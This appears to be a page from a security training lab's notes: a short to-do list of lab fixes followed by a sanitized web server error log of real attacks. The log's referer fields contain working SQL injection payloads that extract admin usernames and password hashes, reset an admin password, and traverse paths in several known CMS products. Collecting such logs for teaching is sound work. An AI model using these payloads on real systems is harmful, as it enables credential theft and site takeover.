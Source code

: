x* UFI lab
x  * `ost this URL` ???
x  * Looks like the `*.phtml` file has an unclosed `<a>` tag
* Correct the link under the "Hack" menu: goes to the wrong place
* Make sure reference to CVE is moved here: https://www.cve.org/
* Insecure Deserialization
  * Need to rewrite this instruction to use the new URL
  * "From the browser tool, click on the original request index.php?action=idsz. Note that a cookie is sent."


## Actual Attacks from Customer Access Log (sanitized)
```
[Sun Jul 21 23:05:10 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/plus, referer: http://second.site.com//plus/ajax_common.php?act=hotword&query=%E9%8C%A6'%20a%3C%3End%201=2%20un%3C%3Eion%20sel%3C%3Eect%201,group_concat(0x23,0x23,0x23,admin_name,0x3a,pwd,0x3a,pwd_hash,0x23,0x23,0x23),3%20fr%3C%3Eom%20qs_admin%23%22
[Sun Jul 21 23:05:11 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/plug, referer: http://second.site.com//plug/comment/commentList.asp?id=0%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now%28%29,null,1%20%20frmasterom%20{prefix}user
[Sun Jul 21 23:05:11 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/mx_form, referer: http://second.site.com//mx_form
[Sun Jul 21 23:05:11 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/plus, referer: http://second.site.com//plus/recommend.php?aid=1
[Sun Jul 21 23:05:12 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/admin, referer: http://second.site.com//admin/Images/del.gif
[Sun Jul 21 23:05:12 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/admin, referer: http://second.site.com//admin/login/login_check.php?met_cookie_filter%5Ba%5D=a%27,admin_pass=md5(1234567)+where+id=1;+%23--
[Sun Jul 21 23:05:12 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/wap, referer: http://second.site.com//wap/?action=show&mod=admin%20where%20userid=1%20and%20(select%201%20from%20(select%20count(*),concat((select%20concat(0x23,username,0x23,password,0x23)%20from%20la_admin%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/news, referer: http://second.site.com//news/html/?410'union/**/select/**/1/**/from/**/(select/**/count(*),concat(floor(rand(0)*2),0x3a,(select/**/concat(0x23,0x23,0x23,user,0x3a,password,0x23,0x23,0x23)/**/from/**/pwn_base_admin/**/limit/**/0,1),0x3a)a/**/from/**/information_schema.tables/**/group/**/by/**/a)b/**/where'1'='1.html
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/news, referer: http://second.site.com//news/html/?410%27union/**/select/**/1/**/from/**/(select/**/count(*),concat(floor(rand(0)*2),0x3a,(select/**/concat(0x23,0x23,0x23,user,0x3a,password,0x23,0x23,0x23)/**/from/**/pwn_base_admin/**/limit/**/0,1),0x3a)a/**/from/**/information_schema.tables/**/group/**/by/**/a)b/**/where%271%27=%271.html
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/f, referer: http://second.site.com//f/job.php?job=getzone&typeid=zone&fup=../../do%5Cjs&id=514125&webdb%5Bweb_open%5D=1&webdb%5Bcache_time_js%5D=-1&pre=qb_label%20where%20lid=-1%20UNION%20SELECT%201,2,3,4,5,6,0,concat%280x23,username,0x23,password,0x23%29,9,10,11,12,13,14,15,16,17,18,19%20from%20qb_members%20limit%201%23
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/shopadmin, referer: http://second.site.com//shopadmin/index.php?ctl=passport&act=login&sess_id=1%27+and%28select+1+from%28select+count%28*%29,concat%28%28select+%28select+%28select+concat%28userpass,0x7e,username,0x7e,op_id%29+from+sdb_operators+Order+by+username+limit+0,1%29+%29+from+%60information_schema%60.tables+limit+0,1%29,floor%28rand%280%29*2%29%29x+from+%60information_schema%60.tables+group+by+x%29a%29+and+%271%27=%271
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/SiteServer, referer: http://second.site.com//SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0&directoryName=sectest
[Sun Jul 21 23:05:14 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/SiteFiles, referer: http://second.site.com//SiteFiles/Module/cms/logo.gif
```